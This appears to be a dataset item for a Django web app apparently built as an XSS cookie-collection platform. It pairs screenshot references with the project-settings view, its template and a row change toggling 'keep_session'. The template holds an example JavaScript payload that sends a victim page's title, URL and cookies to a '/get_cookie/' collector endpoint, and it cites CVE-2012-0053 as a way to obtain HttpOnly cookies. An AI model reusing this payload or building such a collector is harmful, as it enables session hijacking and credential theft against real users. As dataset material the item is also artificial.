
The app's page /project/settings/2/ (signed in), older data.

The same page, newer data.
### core/views.py (the view, shortened to what this page needs)
# urls.py: url(r'^project/settings/(?P<project_id>\d+)/$', 'core.views.project_settings', name="project_settings"),
@login_required(login_url="/login/")
def project_settings(request, project_id):
    if request.method == "GET":
        try:
            p = XssProject.objects.get(pk=int(project_id))
        except XssProject.DoesNotExist:
            raise Http404
        return render(request, "core/project_settings.html", {"project": p})

### templates/core/project_settings.html (shortened to what this page needs)
{% extends "base.html" %}
{% block body %}
{% include "_nav_bar.html" %}
<div class="container">
    <h3>Project {{ project.title }} settings</h3><hr/>
    <div class="project_settings">
        <form action="/project/settings/{{ project.id }}/" method="post">
            {% if project.keep_session %}
                <p><input type="checkbox" checked="checked" value="keep_session" name="settings"> Keep session</p>
            {% else %}
                <p><input type="checkbox"  value="keep_session" name="settings"> Keep session</p>
            {% endif %}
            {% if project.custom_js %}
                <p><input type="checkbox" checked="checked"  value="custom_js" name="settings"> Use custom js</p>
            {% else %}
                <p><input type="checkbox"  name="settings" value="custom_js"> Use custom js</p>
            {% endif %}
            <label>Custom js content</label>
            <textarea class="form-control" rows="3" name="custom_js_content">{{ project.custom_js_content }}</textarea><br/>
            <p>The custom js will replace the origin js, you can click<a href="/xss?id={{ project.id }}" target="_blank"> here </a>to preview.</a>
            You can construct a url like this</p>
            <p>
                <code>var x=new Image();
                       x.src=''+'http://127.0.0.1:8000/get_cookie/'+'?id=YOUR_PROJECT_ID'+'&title='+document.title+'&url='+escape(document.URL)+'&cookie=COOKIES';
                </code>
            </p>
            <p>For example, you can use <code><a href="http://drops.wooyun.org/papers/501">CVE-2012-0053</a></code> to get cookies with http only flag.</p>
            <p><button type="submit" class="btn btn-primary" onclick="this.form.submit()" >Submit</button></p>
        </form>
    </div>
</div>
{% endblock %}

Row changes from the older to the newer data that the page shows:
changed XssProject: keep_session False → True (drawn)
Text that changed along with them:
form field settings: (not shown) → "☑"
form field settings: "☐" → (not shown)
